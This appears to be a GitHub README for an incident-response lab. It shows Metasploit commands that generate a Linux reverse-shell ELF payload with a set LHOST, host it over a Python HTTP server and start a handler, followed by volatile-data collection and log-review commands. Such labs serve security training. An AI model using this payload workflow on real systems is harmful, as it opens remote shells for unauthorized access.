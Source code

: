 # Incident Response Procedures

## Overview
This project simulates an incident response workflow by building malicious executables, collecting volatile data, and analyzing system logs. Tools like Metasploit and Linux commands are used to identify, mitigate, and document activities on compromised systems.

## Key Features
1. **Malicious Executable Creation**:
   - Use Metasploit to create a reverse shell payload for Linux systems.
   - Host the payload via an HTTP server for remote execution.
2. **Volatile Data Collection**:
   - Gather critical data (RAM, network stats, processes) before shutdown.
   - Save findings in a structured report for analysis.
3. **Log Analysis**:
   - Examine system logs (`auth.log`, `btmp`, `wtmp`) to identify unauthorized access or failed login attempts.

## Lab Steps
1. **Create a Malicious Payload**:
   - Build a reverse shell payload:
     ```bash
     msfconsole
     search linux/x64/shell_reverse_tcp
     use 0
     set LHOST 203.0.113.2
     generate -f elf -o linux
     ```
   - Host it via HTTP:
     ```bash
     python3 -m http.server
     ```
   - Start a Metasploit handler:
     ```bash
     use exploit/multi/handler
     set payload linux/x64/shell_reverse_tcp
     exploit
     ```

2. **Collect Volatile Data**:
   - Create a report and collect system data:
     ```bash
     echo sysadmin investigator > report.txt
     date >> report.txt
     uname -a >> report.txt
     hostname >> report.txt
     ifconfig -a >> report.txt
     netstat -ano >> report.txt
     ps -aux >> report.txt
     route -n >> report.txt
     date >> report.txt
     ```
   - View the report:
     ```bash
     cat report.txt | less
     ```

3. **Analyze Logs**:
   - Review logs for suspicious activity:
     ```bash
     cat /var/log/auth.log | less
     last -f /var/log/btmp | more
     last -f /var/log/wtmp | more
     ```

## Tools Used
- **Metasploit Framework**: For creating payloads and managing reverse connections.
- **Linux Commands**: For collecting volatile data and log analysis.
- **Python HTTP Server**: For hosting malicious executables.

## Learning Objectives
- Understand reverse shell creation and execution.
- Collect and document volatile data from compromised systems.
- Analyze system logs to identify unauthorized activities.

## Documentation
Refer to the [Incident Response Procedures](https://github.com/StephVergil/Incident-Response-Procedures/blob/main/Incident%20Reponse%20Procedures.docx)
